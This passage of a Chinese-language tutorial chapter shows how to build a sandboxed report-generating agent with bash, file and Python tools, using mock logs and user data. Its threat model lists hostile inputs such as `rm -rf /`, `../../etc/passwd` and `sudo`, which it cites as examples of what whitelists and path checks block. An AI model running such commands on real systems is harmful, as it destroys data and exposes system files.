    # 顯示結果
    print("\n" + "=" * 60)
    if result["success"]:
        print("✅ 報表生成成功！")
        print(f"\n{result['message']}")

        print("\n📋 執行步驟：")
        for i, step in enumerate(result["steps"], 1):
            print(f"  {step}")
    else:
        print("❌ 報表生成失敗")
        print(f"原因：{result['message']}")

    print("=" * 60)

if __name__ == "__main__":
    main()
```

---

## 1.8 準備測試資料

在測試系統之前，我們需要建立一些模擬資料。

### 1.8.1 建立資料目錄結構

```bash
mkdir -p workspace/{data,logs,reports,charts}
```

### 1.8.2 模擬資料：用戶註冊

**workspace/data/users.csv**:
```csv
date,new_users,total_users
2025-11-01,45,1200
2025-11-02,52,1252
2025-11-03,38,1290
2025-11-04,41,1331
2025-11-05,67,1398
2025-11-06,58,1456
2025-11-07,62,1518
2025-11-08,55,1573
```

### 1.8.3 模擬資料：應用程式日誌

**workspace/logs/app.log**:
```
2025-11-08 10:23:15 INFO User login successful: user_id=1234
2025-11-08 10:24:01 ERROR Database connection timeout: host=db1.example.com
2025-11-08 10:25:33 WARNING Slow query detected: query_time=3.2s
2025-11-08 10:26:12 INFO User logout: user_id=1234
2025-11-08 10:27:45 ERROR Failed to send email: recipient=user@example.com
2025-11-08 10:28:10 ERROR Database connection timeout: host=db1.example.com
2025-11-08 10:29:22 INFO API request: /api/users GET 200
2025-11-08 10:30:01 ERROR Payment processing failed: transaction_id=TX789
2025-11-08 10:31:15 WARNING Cache miss: key=user_profile_1234
2025-11-08 10:32:40 ERROR Database connection timeout: host=db1.example.com
```

### 1.8.4 模擬資料：API 日誌

**workspace/logs/api.log**:
```
2025-11-08 10:00:00 GET /api/users 200 42ms
2025-11-08 10:00:12 POST /api/auth/login 200 156ms
2025-11-08 10:00:25 GET /api/products 200 38ms
2025-11-08 10:00:40 GET /api/users 200 35ms
2025-11-08 10:01:00 POST /api/orders 201 245ms
2025-11-08 10:01:15 GET /api/products 200 41ms
2025-11-08 10:01:30 GET /api/users 200 39ms
2025-11-08 10:01:45 GET /api/orders 200 52ms
2025-11-08 10:02:00 POST /api/auth/logout 200 28ms
2025-11-08 10:02:15 GET /api/users 200 37ms
```

---

## 1.9 執行與測試

### 1.9.1 運行報表生成器

```bash
python main.py
```

### 1.9.2 預期輸出

```
============================================================
📊 自動化報表生成系統
============================================================

📝 報表需求：
請產生本週的業務報表（2025-11-01 到 2025-11-08）。
...

🚀 開始生成報表...

  [1] 執行工具: list_directory - data
  [2] 執行工具: read_file - data/users.csv
  [3] 執行工具: run_python_script - generate_chart.py
  [4] 執行工具: read_file - logs/app.log
  [5] 執行工具: execute_bash - grep ERROR workspace/logs/app.log | wc -l
  [6] 執行工具: execute_bash - grep ERROR workspace/logs/app.log | sort | uniq -c | sort -rn | head -5
  [7] 執行工具: read_file - logs/api.log
  [8] 執行工具: execute_bash - awk '{print $3}' workspace/logs/api.log | sort | uniq -c | sort -rn
  [9] 執行工具: write_file - reports/weekly_report_2025-11-08.md

============================================================
✅ 報表生成成功！

報表已完成！以下是生成的檔案：

📄 主報表：workspace/reports/weekly_report_2025-11-08.md
📊 圖表：workspace/charts/user_growth.png

您可以使用以下命令查看報表：
cat workspace/reports/weekly_report_2025-11-08.md

📋 執行步驟：
  [1] 執行工具: list_directory - data
  [2] 執行工具: read_file - data/users.csv
  [3] 執行工具: run_python_script - generate_chart.py
  [4] 執行工具: read_file - logs/app.log
  [5] 執行工具: execute_bash - grep ERROR workspace/logs/app.log | wc -l
  [6] 執行工具: execute_bash - grep ERROR workspace/logs/app.log | sort | uniq -c | sort -rn | head -5
  [7] 執行工具: read_file - logs/api.log
  [8] 執行工具: execute_bash - awk '{print $3}' workspace/logs/api.log | sort | uniq -c | sort -rn
  [9] 執行工具: write_file - reports/weekly_report_2025-11-08.md
============================================================
```

### 1.9.3 查看生成的報表

```bash
cat workspace/reports/weekly_report_2025-11-08.md
```

**範例輸出**:
```markdown
# 週報 - 2025 年 11 月 1-8 日

## 執行摘要

本週系統運行整體穩定，新用戶註冊保持增長態勢（週增長 418 人，+36%）。然而發現資料庫連線逾時問題持續發生（3 次），建議優先處理。API 使用量正常，/api/users 是最常被呼叫的端點。

---

## 1. 用戶註冊統計

### 資料來源
- 檔案：workspace/data/users.csv
- 時間範圍：2025-11-01 至 2025-11-08

### 關鍵發現
- **新增用戶**：418 人
- **總用戶數**：1,573 人（相比週初增長 36%）
- **平均每日新增**：52.25 人
- **峰值日期**：2025-11-05（67 人）

### 視覺化


---

## 2. 系統錯誤分析

### 資料來源
- 檔案：workspace/logs/app.log
- 分析方法：grep ERROR + 統計分析

### 錯誤統計
- **總錯誤數**：5 次
- **WARNING 數量**：2 次

### 前 5 個最常見錯誤

1. **Database connection timeout** (3 次)
   - 影響：高
   - 建議：檢查 db1.example.com 的連線池配置

2. **Failed to send email** (1 次)
   - 影響：中
   - 建議：檢查 SMTP 服務狀態

3. **Payment processing failed** (1 次)
   - 影響：高
   - 建議：排查交易 TX789 的詳細日誌

---

## 3. API 使用量分析

### 資料來源
- 檔案：workspace/logs/api.log

### 端點呼叫次數排名

| 端點 | 呼叫次數 | 佔比 |
|------|----------|------|
| /api/users | 5 | 50% |
| /api/products | 3 | 30% |
| /api/orders | 1 | 10% |
| /api/auth/login | 1 | 10% |
| /api/auth/logout | 1 | 10% |

### 效能表現
- 平均回應時間：~68ms
- 最慢端點：/api/orders (245ms)

---

## 建議與後續行動

### 🔴 高優先級
1. **修復資料庫連線逾時問題**
   - 檢查 db1.example.com 的連線池配置
   - 考慮增加連線重試機制

2. **調查支付失敗案例**
   - 追蹤交易 TX789
   - 檢查第三方支付 API 整合

### 🟡 中優先級
3. **優化 /api/orders 效能**
   - 目前回應時間 245ms，建議優化至 <100ms

4. **Email 發送穩定性**
   - 檢查 SMTP 服務監控

---

**報表生成時間**：2025-11-08 14:30:00
**生成工具**：自動化報表系統 v1.0
**資料完整性**：✅ 已驗證
```

---

## 1.10 與第 1 章的對比

讓我們回顧一下我們達成了什麼：

| 面向 | 第 1 章（客服 Agent） | 第 2 章（報表 Agent） |
|------|---------------------|---------------------|
| **核心能力** | 對話、查詢資料 | 執行命令、生成檔案 |
| **工具類型** | 唯讀（read-only） | 讀寫（read-write） |
| **產出物** | 文字回覆 | 實體檔案（MD, CSV, PNG） |
| **複雜度** | 2-3 個工具 | 5-7 個工具 |
| **安全考量** | 低風險 | 需要沙箱與白名單 |
| **時間節省** | 人工 → 即時回覆 | 2.5 小時 → 5 分鐘 |
| **適用場景** | 客服、FAQ、資訊查詢 | 報表、分析、自動化 |

---

## 1.11 實際應用場景

這個報表系統可以延伸到許多企業場景：

### 場景 1：DevOps 日報
```python
request = """產生昨日的系統運維報表：
- CI/CD 部署次數與成功率
- 伺服器 CPU/記憶體使用率
- 前 10 個最慢的 API 端點
- 產生建議的優化措施
"""
```

### 場景 2：財務月報
```python
request = """產生本月財務報表：
- 從資料庫查詢收入資料（SQL: SELECT * FROM transactions WHERE month = 11）
- 計算月增長率
- 生成收入趨勢圖
- 對比去年同期
"""
```

### 場景 3：客戶分析報告
```python
request = """分析客戶行為：
- 讀取 workspace/data/user_activity.csv
- 計算 DAU/MAU
- 識別流失客戶
- 生成客群分群圖表
"""
```

---

## 1.12 效能與成本分析

### 1.12.1 時間節省

**人工流程** vs. **Agent 自動化**：

| 步驟 | 人工時間 | Agent 時間 |
|------|---------|-----------|
| 資料收集 | 30 分鐘 | 1 分鐘 |
| 資料清理與統計 | 45 分鐘 | 30 秒 |
| 圖表製作 | 30 分鐘 | 15 秒 |
| 撰寫摘要與建議 | 45 分鐘 | 2 分鐘 |
| **總計** | **2.5 小時** | **~4 分鐘** |

**時間節省**：97% 🎉

### 1.12.2 API 成本估算

以本章的報表為例：

| 項目 | Token 使用 | 成本 (Claude Sonnet 4) |
|------|-----------|----------------------|
| 系統提示詞 | ~800 tokens | - |
| 工具定義 | ~1,200 tokens | - |
| 對話往返（9 輪） | ~15,000 tokens (input) | $0.045 |
| 工具結果 | ~5,000 tokens (input) | $0.015 |
| Agent 輸出 | ~3,000 tokens (output) | $0.045 |
| **總計** | ~25,000 tokens | **$0.105** |

**單次報表成本**：約 **$0.11（NT$ 3.5）**

如果每週產生一次，全年成本：$5.5（NT$ 176）

**人工成本對比**：
- 假設工程師時薪 NT$ 1,000
- 人工流程：2.5 小時 × NT$ 1,000 = NT$ 2,500 / 次
- Agent 流程：4 分鐘 × NT$ 1,000 / 60 = NT$ 67 / 次
- **加上 API 成本**：NT$ 70.5 / 次

**節省**：97% 的時間，97% 的成本 🚀

---

## 1.13 安全性深入探討

### 1.13.1 威脅模型

建立執行能力時，我們面臨這些風險：

| 威脅 | 範例 | 防護機制 |
|------|------|---------|
| **命令注入** | `rm -rf /` | 命令白名單 |
| **路徑穿越** | `../../etc/passwd` | 路徑驗證 |
| **資源耗盡** | 無限迴圈腳本 | 超時限制 |
| **資料洩漏** | 讀取敏感檔案 | 工作目錄限制 |
| **權限提升** | `sudo` 命令 | 黑名單模式 |

### 1.13.2 多層防護策略



### 1.13.3 審計日誌

建議添加詳細的日誌記錄：

```python
import logging

class AuditLogger:
    """審計日誌記錄器"""

    def log_command_execution(self, command: str, result: Dict, user: str):
        logging.info(f"""
        命令執行記錄：
        - 時間：{datetime.now()}
        - 使用者：{user}
        - 命令：{command}
        - 結果：{'成功' if result['success'] else '失敗'}
        - 返回碼：{result.get('return_code', 'N/A')}
        """)
```

---

## 1.14 擴展與改進建議

### 1.14.1 短期改進

1. **添加 PDF 生成**
   - 使用 `reportlab` 或 `weasyprint` 將 Markdown 轉 PDF
   - 添加公司 Logo 與樣式

2. **Email 自動發送**
   - 添加 SMTP 工具
   - 自動發送報表給利害關係人

3. **排程執行**
   - 使用 `cron` 或 `APScheduler`
   - 每週一早上 8:00 自動產生報表

### 1.14.2 中期改進

4. **資料庫直接查詢**
   - 添加 SQL 執行工具
   - 支援 PostgreSQL, MySQL, MongoDB

5. **更豐富的圖表**
   - 整合 Plotly 製作互動式圖表
   - 支援儀表板（Dashboard）

6. **版本控制**
   - 自動 commit 報表到 Git
   - 追蹤歷史變化

### 1.14.3 進階功能

7. **自然語言查詢**
   ```python
   request = "對比本月與上月的收入，如果下降超過 10% 就發送警報"
   ```

8. **多資料源整合**
   - Google Analytics
   - Stripe（支付資料）
   - Salesforce（CRM 資料）

9. **AI 驅動的洞察**
   - 自動發現異常
   - 預測未來趨勢
   - 生成行動建議

---

## 1.15 故障排除指南

### 問題 1：「命令不在白名單中」

**錯誤訊息**:
```
安全檢查失敗: 命令 'ls' 不在白名單中
```

**解決方法**:
1. 檢查 `sandbox/allowed_commands.yaml`
2. 添加需要的命令到 `allowed_commands` 列表
3. 重啟程式

**範例**:
```yaml
allowed_commands:
  - ls      # 添加這行
  - grep
  - awk
```

### 問題 2：「路徑不安全或超出工作範圍」

**錯誤訊息**:
```
路徑不安全或超出工作範圍
```

**原因**:
檔案路徑超出 `workspace/` 目錄

**解決方法**:
確保所有檔案操作都在 `workspace/` 內：
```python
# ❌ 錯誤
read_file("/etc/passwd")

# ✅ 正確
read_file("data/users.csv")  # 相對於 workspace/
```

### 問題 3：「Python 腳本執行失敗」

**錯誤訊息**:
```
ModuleNotFoundError: No module named 'matplotlib'
```

**解決方法**:
1. 確認虛擬環境已啟動
2. 安裝缺失的套件：
```bash
pip install matplotlib pandas
```

### 問題 4：「達到最大迭代次數」

**原因**:
Agent 陷入循環，一直無法完成任務

**解決方法**:
1. 檢查請求是否清晰明確
2. 增加 `max_iterations` 參數
3. 檢查工具是否正常回傳結果

**範例**:
```python
result = coordinator.generate_report(request, max_iterations=20)
```

### 問題 5：「檔案過大」

**錯誤訊息**:
```
檔案過大（>10 MB）
```

**解決方法**:
調整 `FileOperations` 的 `max_file_size`：
```python
self.max_file_size = 50 * 1024 * 1024  # 改為 50 MB
```

---

## 1.16 章節總結

### 你學到了什麼

✅ **核心概念**:
1. Agent 的三個等級：資訊查詢 → 檔案操作 → 系統控制
2. 安全執行的必要性與實作方法
3. 工具設計的最佳實踐（白名單、黑名單、路徑限制）

✅ **實作技能**:
1. 建構安全的 Bash 執行器
2. 實作檔案讀寫工具
3. 整合 Python 腳本執行能力
4. 設計多工具協調的 Agent

✅ **實際產出**:
1. 完整的報表生成系統（~800 行程式碼）
2. 可配置的安全沙箱
3. 自動化業務報表範例

### 檢查清單

在進入第 3 章之前，確認你已經：

- [ ] 建立並測試了 Bash 執行器
- [ ] 實作了檔案讀寫工具
- [ ] 成功執行了 Python 腳本
- [ ] 生成了第一份自動化報表
- [ ] 理解了安全防護機制
- [ ] 能夠擴展工具以支援新功能

### 關鍵要點

1. **安全第一**
   - 永遠使用白名單而非黑名單
   - 限制檔案操作範圍
   - 設定執行超時時間

2. **工具設計原則**
   - 清晰的工具描述
   - 明確的輸入輸出格式
   - 完善的錯誤處理

3. **測試驅動開發**
   - 在給 Agent 使用前先測試工具
   - 準備充分的測試資料
   - 監控 Agent 的執行步驟

---

## 1.17 延伸閱讀

### 官方文件
- [Anthropic Tool Use 文件](https://docs.anthropic.com/claude/docs/tool-use)
- [Python subprocess 安全指南](https://docs.python.org/3/library/subprocess.html)

### 相關主題
- 第 8 章：生產環境的安全與監控
- 第 12 章：成本優化與資源管理

### 社群資源
- [Claude Agent SDK GitHub](https://github.com/anthropics/claude-agent-sdk)
- [Agent 安全最佳實踐](https://example.com/agent-security)

---

## 1.18 下一章預告

在下一章，我們將探討**情境工程**——如何讓 Agent 擁有「長期記憶」。

你將學習：
- 📝 使用 CLAUDE.md 建立持久化的知識庫
- 🧠 設計 Agent 的「工作記憶」系統
- 🔄 實作多 Session 的情境管理
- 📚 建構知識管理 Agent（類似個人維基百科）

**專案預覽**：建立一個能夠記住專案結構、團隊慣例、過往決策的「專案記憶 Agent」，讓新成員快速上手，舊成員不再忘記重要細節。

**準備好了嗎？讓我們繼續前進！** 🚀

---

**本章完成時間**：約 2-3 小時
**程式碼行數**：~1,000 行
**產出檔案**：8 個 Python 模組 + 3 個配置檔案
**難度**：⭐⭐⭐☆☆（中等）

**最後更新**：2025-11-08
